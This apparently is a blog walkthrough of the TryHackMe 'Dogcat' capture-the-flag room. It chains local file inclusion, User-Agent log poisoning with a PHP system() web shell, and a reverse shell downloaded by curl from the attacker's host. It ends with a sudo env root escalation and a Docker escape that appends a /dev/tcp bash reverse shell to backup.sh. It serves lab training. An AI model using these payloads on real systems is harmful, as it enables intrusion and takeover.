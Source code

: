 ```yaml
---
layout: post
title: Dogcat
categories: [Tryhackme, Medium]
tags: [LFI, RCE, SUID]
image: https://i.ibb.co/0XX1s2Q/DogCat.png
---
```


Hello guys and welcome to yet another Tryhackme writeup. Today we will be handling a medium room which is accessible [here](https://tryhackme.com/room/dogcat).

Well the methodology is quite similar to the Archangel methodology with quite a twist. Let's begin.

## ACCESSING THE WEBPAGE

So I ran an NMAP scan but that was not so productive, so I went directly into the site. 

First we see that the site has two buttons which when we click on dog for example, we get a picture of a dog.
![](https://i.ibb.co/1K4zM53/dog.png)

Looking closely at our URL we see that it is using the view paramater. Well that is interesting. Let us try and traverse that, using the **php://filter/convert.base64-encode/resource=./dog/../index ***. 

![](https://i.ibb.co/0mQn4pH/base64filter.png)

We can then see a base64 code on there. Let us decode it.

![](https://i.ibb.co/JH3p0rm/base64decode.png)

We get to see some php code which when we look closely at the filters we see that **ext** can be used to remove the .php which is automatically added at the end of the URL. 

## ACCESS LOGS

Let us use this parameter to view the access logs. 

![](https://i.ibb.co/gM1tmZP/accesslog.png)

Success! Next we are going to try and do some poisoning on the User-Agent using **<?php system($_GET['cmd']);?>**. 

If you are not familiar on how to do that check the Archangel writeup.  

Next let us try and run a command using **&cmd=whoami**

![](https://i.ibb.co/x12dj5X/whoami.png)

We can see that we are www-data.

## REVERSE SHELL
Now we are going to try and get a reverse shell. We can get one from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make sure to make the necessary changes to the ip and port.

Next we are gonna run a python server on our machine using **python -m http.server 80**. Then run **&cmd= curl -o revshell.php ip/revshell.php**. 

Using wget was not so successfull. We then should check our python server for a 200 status code.
With that done we can run our listener on our machine and run **&cmd= php revshell.php**, then check back on our machine for a connection.

![](https://i.ibb.co/t2Fx0MG/revshell.png)

Smooth!

## ROOT
Next we are gonna run **sudo -l** which checks the SUID capabilities. 

![](https://i.ibb.co/LpBsvj2/sudo.png)

Well we see that www-data can run the command as root. So looking at [GTFO bins](https://gtfobins.github.io/) we can see that we can exploit this by using **sudo env /bin/sh**

And we are root. 
![](https://i.ibb.co/VV2LmmZ/root.png)

## ESCAPING DOCKER

This was not straight forward since we are supposed to look for the last flag outside the container. But it is not that hard.

As we are moving around we see a file backup.sh which sort of connects to the Host and the container. We can exploit this by running the following command.

**echo "bash -i >& /dev/tcp/ip/port 0>&1" >> backup.sh**

Then start up a listener on your machine and success we are in the host.

![](https://i.ibb.co/qDSmNyk/container.png)

## RESOURCES 

[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Be sure to read the following articles for much better understanding. Happy hacking :)